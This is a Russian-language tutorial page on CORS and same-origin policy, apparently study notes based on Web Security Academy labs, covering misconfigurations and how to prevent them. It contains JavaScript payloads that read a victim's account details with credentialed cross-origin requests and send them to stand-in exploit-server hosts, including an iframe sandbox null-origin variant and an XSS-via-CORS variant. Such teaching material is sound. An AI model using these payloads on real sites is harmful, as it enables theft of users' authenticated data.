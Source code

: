 # **CORS (client)**

> **Cross-origin resource sharing (CORS)** — это механизм браузера, который обеспечивает контролируемый доступ к ресурсам, расположенным за пределами заданного домена. Он расширяет и добавляет гибкости политике одного и того же источника (SOP). Однако он также предоставляет потенциал для cross-domain атак, если политика CORS веб-сайта плохо настроена и реализована. CORS не является защитой от cross-origin атак, таких как подделка межсайтовых запросов (CSRF).

> **Origin** — это адрес, с которого отправлен запрос. Он состоит из протокола, домена и порта. Его отправляют в заголовке HTTP-запроса.

> **Site** — он же «сайт» — это комбинация домена верхнего уровня и поддомена первого уровня. Проще говоря, корневой домен сайта.

> **Политика одного источника (SOP)** — это механизм безопасности веб-браузера, который направлен на предотвращение атак веб-сайтов друг на друга.

> Согласно SOP, скрипт с одного сайта может посылать POST- и GET-запросы на другой сайт. Но ответ он прочитать не сможет: у них разные origin, поэтому чтение ответа будет заблокировано на уровне браузера.
Остальные виды запросов — например, DELETE или PUT — SOP не пропустит в принципе. Они не дойдут до сервера.
SOP определяет права доступа на основе origin.

# **CORS и заголовки**

* **Access-Control-Allow-Origin**
	* Заголовок Access-Control-Allow-Origin включается в ответ одного веб-сайта на запрос, исходящий с другого веб-сайта, и определяет разрешенный источник запроса. Веб-браузер сравнивает Access-Control-Allow-Origin с источником запрашивающего веб-сайта и разрешает доступ к ответу, если они совпадают.
	* Спецификация Access-Control-Allow-Origin допускает несколько источников, или значение null, или подстановочный знак *. Однако ни один браузер не поддерживает несколько источников, и существуют ограничения на использование подстановочного знака *

* **Access-Control-Allow-Credentials**
  * Значение true - если запрашивающий веб-сайт использует JavaScript для объявления отправки файлов cookie с запросом, браузер разрешит запрашивающему веб-сайту прочитать ответ.


# Уязвимости, возникающие из-за проблем с конфигурацией CORS

* **Сгенерированный сервером заголовок ACAO из указанного клиентом заголовка Origin**

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

* **Ошибки при анализе заголовков источника**

* Приложение предоставляет доступ ко всем доменам, заканчивающимся на
normal-website.com
```
Можно получить доступ, зарегистрировав домен:
hackersnormal-website.com
```

* Приложение предоставляет доступ ко всем доменам, начинающимся с
normal-website.com
```
Можно получить доступ, используя домен:
normal-website.com.evil-user.net
```

* **Белый список пустого источника**

Спецификация заголовка Origin поддерживает значение null. Браузеры могут отправлять значение null в заголовке Origin в различных необычных ситуациях:

* Перенаправления между источниками.
* Запросы из сериализованных данных.
* Запросы с использованием протокола file:.
* Запросы между источниками в изолированной среде.
  
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','target-domain.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
* **Эксплуатация XSS через доверительные отношения CORS**

* Если веб-сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), можно использовать XSS для внедрения некоторого JavaScript, который использует CORS для получения конфиденциальной информации с сайта, который доверяет уязвимому приложению.

* **Взлом TLS с плохо настроенным CORS**

<script>
    document.location="http://victim-server.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://victim-server/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://my.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

* **Интрасети и CORS без учетных данных**

Большинство атак CORS полагаются на наличие заголовка ответа:
Access-Control-Allow-Credentials: true

Когда cайт является частью интрасети организации и расположен в частном пространстве IP-адресов, нет возможности получить доступ к нему напрямую. Внутренние веб-сайты часто имеют более низкий стандарт безопасности, чем внешние сайты, что позволяет находить уязвимости и получать дополнительный доступ. 

* Например, запрос кросс-источника в частной сети может быть следующим:

GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com

И сервер отвечает:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

Сервер приложений доверяет запросам ресурсов из любого источника без учетных данных. 

Если пользователи в частном пространстве IP-адресов получают доступ к общедоступному Интернету, то атака на основе CORS может быть выполнена с внешнего сайта, который использует браузер жертвы в качестве прокси-сервера для доступа к ресурсам интрасети.

# Как предотвратить атаки на основе CORS

Уязвимости CORS возникают в первую очередь из-за неправильных конфигураций.

* Правильная настройка запросов кросс-источника
Если веб-ресурс содержит конфиденциальную информацию, источник должен быть правильно указан в заголовке Access-Control-Allow-Origin.
* Разрешать только доверенные сайты
Это может показаться очевидным, но источники, указанные в заголовке Access-Control-Allow-Origin, должны быть только доверенными сайтами. В частности, динамическое отражение источников из запросов кросс-источника без проверки легко эксплуатируется и его следует избегать.
* Избегайте внесения null в белый список
Избегайте использования заголовка Access-Control-Allow-Origin: null. Вызовы ресурсов кросс-источника из внутренних документов и изолированных запросов могут указывать на нулевой источник. Заголовки CORS должны быть правильно определены в отношении доверенных источников для частных и публичных серверов.
* Избегайте подстановочных знаков во внутренних сетях.
Избегайте использования подстановочных знаков во внутренних сетях. Доверия конфигурации сети для защиты внутренних ресурсов недостаточно, когда внутренние браузеры могут получать доступ к ненадежным внешним доменам.
* CORS не заменяет политики безопасности на стороне сервера
CORS определяет поведение браузера и никогда не заменяет защиту конфиденциальных данных на стороне сервера — злоумышленник может напрямую подделать запрос из любого доверенного источника. Поэтому веб-серверы должны продолжать применять защиту конфиденциальных данных, такую ​​как аутентификация и управление сеансами, в дополнение к правильно настроенному CORS.
